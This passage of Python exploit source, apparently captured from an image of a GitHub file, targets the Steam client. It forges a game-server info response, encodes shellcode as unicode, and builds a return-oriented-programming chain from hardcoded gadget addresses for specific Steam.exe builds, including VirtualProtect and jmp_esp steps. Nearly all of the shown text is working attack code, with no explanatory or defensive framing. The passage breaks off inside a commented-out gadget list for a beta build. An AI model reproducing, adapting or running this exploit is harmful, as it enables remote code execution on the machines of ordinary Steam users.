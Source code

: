     bots = "\x00" # Bots in game (byte)
    server_type = "d" # Server type, d = dedicate (byte)
    environment = "l" # Hosted on windows linux or mac, l is linux (byte)
    visibility = "\x00" # Password needed? (byte)
    VAC = "\x01" # VAC enabled? (byte)
    version = "1.3.6.7.1\x00"
    return pre + header + protocol + name + map_name + folder + game + ID + players + maxplayers + bots + server_type + environment + visibility + VAC + version


def to_unicode(addr):
    a = addr & 0xffff;
    b = addr >> 16;
    return eval('u"\\u%s\\u%s"' % (hex(a)[2:].zfill(4), hex(b)[2:].zfill(4)))


def convert_addr(gadget):
    return to_unicode(STEAM_BASE + gadget - 0x400000)


def convert_shellcode(code):
    code = code + "\x90"*8 #pad with nops
    output = ""
    l = textwrap.wrap(code.encode("hex"), 2)
    for i in range(0, len(l)-4, 4):
        output += "\\u%s%s\\u%s%s" % (l[i+1], l[i], l[i+3], l[i+2])
    return eval('u"%s"' % output)


def pwn():
    print("[*] Building ROP chain")

    # ROP gadgets for Steam.exe Nov 26 2018
    pop_eax = convert_addr(0x503ca7)
    pop_ecx = convert_addr(0x41bd9f)
    pop_edx = convert_addr(0x413a53)
    pop_ebx = convert_addr(0x40511c)
    pop_ebp = convert_addr(0x40247c)
    pop_esi = convert_addr(0x404de6)
    pop_edi = convert_addr(0x423839)
    jmp_esp = convert_addr(0x4413bd)
    pushad = convert_addr(0x425e00)
    ret_nop = convert_addr(0x401212)
    mov_edx_eax = convert_addr(0x5599a6)
    sub_eax_41e82c6a = convert_addr(0x51584f)
    mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret = convert_addr(0x4e24eb)
    mov_esi_ptr_esi_mov_eax_esi_pop_esi = convert_addr(0x4506ea)
    xchg_eax_esi = convert_addr(0x543b86)

    writable_addr = convert_addr(0x69a01c)
    virtual_protect_idata = convert_addr(0x5f9280)
    new_protect = to_unicode(0x41e82c6a+0x40)
    msize = to_unicode(0x41e82c6a+0x501)

    '''
    # ROP gadgets for Steam.exe Beta Dec 14 2018
    pop_eax = convert_addr(0x425993)
    pop_ecx = convert_addr(0x41bd9f)
    pop_edx = convert_addr(0x413a53)
    pop_ebx = convert_addr(0x40511c)
    pop_ebp = convert_addr(0x40247c)
    pop_esi = convert_addr(0x404de6)
    pop_edi = convert_addr(0x423839)
    jmp_esp = convert_addr(0x4413bd)
    pushad = convert_addr(0x425e00)